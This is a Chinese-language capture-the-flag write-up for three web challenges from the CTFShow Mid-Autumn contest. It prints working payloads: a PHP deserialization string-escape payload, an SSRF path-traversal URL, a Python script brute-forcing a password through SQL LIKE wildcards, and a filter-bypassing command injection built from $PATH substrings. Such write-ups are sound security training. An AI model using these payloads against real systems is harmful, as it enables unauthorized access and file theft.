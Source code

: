 ```yaml
---
title: CTFShow月饼杯
date: 2020-09-28 21:21:04
updated: 2020-09-28 21:21:04
categories: Write up
---
```


CTFShow月饼杯,学到了很多<!--more-->

# web1_此夜圆

题目描述：一江春水何年尽，万古清光此夜圆

挺简单的一题，考察反序列化字符逃逸

附下解题脚本，过程就不写了

```php
<?php
error_reporting(0);

class a
{
    public $uname='FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}';
    public $password=1;
//    public function __construct($uname,$password)
//    {
//        $this->uname=$uname;
//        $this->password=$password;
//    }
    public function __wakeup()
    {
        if($this->password==='yu22x')
        {
            echo '123';
        }
        else
        {
            echo 'wrong password';
        }
    }
}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}


$ser=filter(serialize(new a($uname,$password)));
print ($ser);
echo "\n";

print (unserialize($ser));
?>
```

payload:

```
1=FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```



# web2_故人心



题目描述：三五夜中新月色，二千里外故人心

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$a=$_GET['a'];
$b=$_GET['b'];
$c=$_GET['c'];
$url[1]=$_POST['url'];
if(is_numeric($a) and strlen($a)<7 and $a!=0 and $a**2==0){
    $d = ($b==hash("md2", $b)) && ($c==hash("md2",hash("md2", $c)));
    if($d){
             highlight_file('hint.php');
             if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }else{
                    echo '差点点就成功了！';
                }
            }else{
                echo 'please give me url!!!';
            }     
    }else{
        echo '想一想md5碰撞原理吧?!';
    }
}else{
    echo '第一个都过不了还想要flag呀?!';
}
<?php 
$flag="flag in /fl0g.txt";
```

**第一关 绕过a**

```
需要绕过 is_numeric($a) and strlen($a)<7 and $a!=0 and $a**2==0
```

php小数点后超过161位做平方运算时会被截断,我们可以用科学计数法来代替，即 `1e-162 `

![](https://img.npfs06.top/20210405212700.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

这里的三个 if语句都可以执行成功，可以自己尝试下

**第二关 绕过b c**

有个提示，按提示写脚本即可，做法类似 MD5爆破

![](https://img.npfs06.top/20210405212716.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)


![](https://img.npfs06.top/20210405212727.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



**第三关 url**

考点：file_get_contents使用不存在的协议名导致目录穿越，实现SSRF
php源码中，在向目标请求时先会判断使用的协议。如果协议无法识别，就会认为它是个目录。

- FILTER_VALIDATE_URL 过滤器把值作为 URL 来验证。<a href='https://www.runoob.com/php/filter-validate-url.html' target='_blank'>https://www.runoob.com/php/filter-validate-url.html</a>

题目中要求url中存在 ctfshow.com,又要构造符合url格式
我们可以构造类似 a://ctfshow.com/../../../  这样的url，又因为我们需要查看fl0g.txt文件

最终payload为 url=a://ctfshow.com/../../../../../fl0g.txt



# web3_莫负婵娟

题目描述：皎洁一年惟此夜，莫教容易负婵娟

查看源码，可以发现一些提示

```
like 模糊匹配

% 表示零个或多个字符的任意字符串
_（下划线）表示任何单个字符
[ ] 表示指定范围 ([a-f]) 或集合 ([abcdef]) 中的任何单个字符
[^] 不属于指定范围 ([a-f]) 或集合 ([abcdef]) 的任何单个字符
* 它同于DOS命令中的通配符，代表多个字符
？同于DOS命令中的？通配符，代表单个字符
# 大致同上，不同的是代只能代表单个数字
```

这里的话大部分字符都被过滤了，但是_(下划线)没有，添加N个 _ (下划线）可以知道密码长度为32

![](https://img.npfs06.top/20210405212740.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

```php
import requests

a="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
url = 'http://b1390a07-2ecc-422e-a3e5-0c80c4d66024.chall.ctf.show/login.php'

pwd = ''
for i in range(32):
    print('i = '+str(i+1),end='\t')
    for j in a:
        password = pwd + j + (31 - i) * '_'
        data = {'username':'yu22x','password':password}
        r = requests.post(url,data=data)
        if 'wrong' not in r.text:
             pwd += j
             print(pwd)
             break
```

密码：67815b0c009ee970fe4014abaa3Fa6A0 ；用户名：yu22x  

bp抓包 爆破，发现小写字母全被过滤了
但是可以使用：大写字母，数字，{ }，空格，$，~

题目有个hint

```
环境变量 +linux字符串截取 + 通配符
```

先放payload：ip=0;${PATH:14:1}${PATH:5:1}  ????.???

做法：**使用$PATH环境变量来截取字母**

![](https://img.npfs06.top/20210405212759.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210405212807.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

需要读取 flag.txt

但是我在本地的$PATH路径上找不到 t  ....

所以用 nl

![](https://img.npfs06.top/20210405212817.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

查看源码即可得到flag